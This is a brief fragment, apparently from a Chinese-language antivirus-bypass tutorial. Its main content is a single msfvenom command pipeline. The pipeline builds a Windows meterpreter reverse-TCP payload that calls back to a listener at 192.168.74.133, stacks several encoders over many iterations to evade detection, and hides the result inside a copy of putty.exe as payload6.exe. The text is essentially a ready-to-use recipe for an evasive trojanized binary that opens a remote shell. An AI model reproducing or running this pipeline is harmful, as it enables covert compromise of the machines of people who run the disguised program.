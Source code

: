 ![eaa1c8f8e1559170bbc96d5b311118ad](images/2020.02-bypass-01/7.png)

还有这种更多重编码姿势

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.74.133 LPORT=5110 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > payload6.exe
```
